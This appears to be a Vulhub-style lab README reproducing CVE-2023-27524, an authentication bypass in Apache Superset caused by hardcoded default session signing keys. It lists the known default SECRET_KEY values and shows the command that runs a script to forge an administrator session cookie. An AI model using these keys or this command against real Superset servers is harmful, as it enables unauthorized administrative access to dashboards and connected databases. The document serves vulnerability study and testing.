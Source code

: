 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Superset is an open-source data exploration and visualization platform designed to be visual, intuitive, and interactive.

Apache Superset contains a hardcoded JWT secret key vulnerability (CVE-2023-27524). The application ships with a default `SECRET_KEY` value that is used to sign session cookies. When administrators fail to change this default key, attackers can forge valid session cookies and authenticate as any user, including administrators. This allows unauthorized access to the Superset dashboard, connected databases, and potentially leads to remote code execution.

References:

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

## Environment Setup

Execute the following command to start an Apache Superset 2.0.1 server:

```
docker compose up -d
```

After the server is started, you can access Superset at `http://your-ip:8088`. The default login credentials are admin/vulhub.

## Vulnerability Reproduction

The vulnerability exists because Superset uses one of following hardcoded default `SECRET_KEY` values:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

Use [CVE-2023-27524.py](CVE-2023-27524.py) to forge an administrative session (whose user_id is 1) cookie:

```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

This script attempts to crack the session cookie using known default secret keys. If successful, it will forge a new session cookie with user_id=1 (typically the admin user) and validate the login.

![](1.png)

Use this JWT token in the cookie value like `Cookie: session=eyJ...`, you can access the backend endpoint of Superset:

![](2.png)
